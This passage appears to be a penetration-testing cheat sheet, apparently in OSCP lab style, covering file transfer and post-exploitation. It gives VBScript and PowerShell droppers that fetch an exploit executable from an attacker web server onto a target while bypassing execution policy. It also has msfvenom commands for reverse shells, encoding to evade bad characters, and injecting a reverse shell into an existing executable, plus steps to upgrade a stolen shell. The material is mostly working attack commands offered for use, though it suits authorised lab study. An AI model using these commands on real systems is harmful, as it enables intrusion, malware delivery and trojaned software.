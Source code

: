 ```
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs 
```

Then execute `cscript wget.vbs http://[your IP]/file` on the target machine.

<b>Powershell</b>

For targets that have powershell installed, you can create a powershell script to download a file from a webserver. Setup a webserver on Kali Linux using `systemctl enable apache2`, and move the file you want to send to /var/www/html. Run this on the target:

```
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.5/file" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive - NoProfile -File wget.ps1 
```

### Msfvenom
Common payloads:
* windows/shell_reverse_tcp
* windows/shell/reverse_tcp (staged)
* php/reverse_php
* windows/meterpreter/reverse_https (popular for looking just like normal web traffic)
* linux/x86/shell_reverse_tcp
* linux/x86/shell/reverse_tcp (staged)

Creating a windows reverse shell: `msfvenom -p windows/shell_reverse_tcp LHOST=[local IP] LPORT=[listening port] -f c`

Avoiding bad characters: `msfvenom -p windows/shell_reverse_tcp LHOST=[local IP] LPORT=[listening port] -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d" `

Prevent the process from exiting: Use the `EXITFUNC=thread` option when using msfvenom.

Injecting a payload into an existing PE executable: `msfvenom -p windows/shell_reverse_tcp LHOST=[local IP] LPORT=[listening port] -f exe -e x86/shikata_ga_nai -i 9 -x binary_to_inject_into.exe -o shell_reverse_msf_encoded_embedded.exe`

### Upgrading Shell

On a Kali Linux terminal, use `stty -a` to see information about your window. On the victim, run `python -c 'import pty; pty.spawn("/bin/bash")'` (if the victim does not have Python installed, [click here](https://netsec.ws/?p=337) to get a list of other commands that you can run). After running the command to spawn a TTY shell, Ctrl-Z out of the reverse shell you're currently in, and type in the following three commands:
```
stty raw -echo
fg
reset
```
Note that your terminal may get messed up while doing this and print out random characters, but once you type in "reset", it should go back to normal. Now all you have to do is type in the following three commands:
```
export SHELL=bash
export TERM=[terminal type]
```